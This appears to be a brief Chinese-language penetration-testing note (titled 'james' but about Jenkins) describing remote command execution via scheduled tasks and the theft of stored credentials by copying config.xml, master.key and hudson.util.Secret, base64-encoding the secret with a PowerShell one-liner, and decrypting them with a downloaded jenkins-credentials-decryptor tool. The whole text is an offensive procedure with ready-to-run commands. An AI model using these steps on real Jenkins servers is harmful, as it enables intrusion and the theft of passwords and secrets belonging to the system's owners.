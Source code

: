 # james

首先可以执行命令，如果没有新任务上线的按钮，可以控制面板设置计划任务，来实现rce

主要就是关于James中的config.xml，可以获取密码\
需要如下

```clike
config.xml
master.key
hudson.util.Secret
```

```clike
1. 得到所需文件
master.key应该是256位
hudson.util.Secret是一个可执行文件，可以直接传，也可以base64编码后再传，如何编码如下：
powershell -c [convert]::ToBase64String((cat ..\..\secrets\hudson.util.Secret -Encoding byte)) 
2. 工具下载
https://github.com/hoto/jenkins-credentials-decryptor/releases/tag/1.2.0
3. 操作得到密码
 ./jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c config.xml 
```

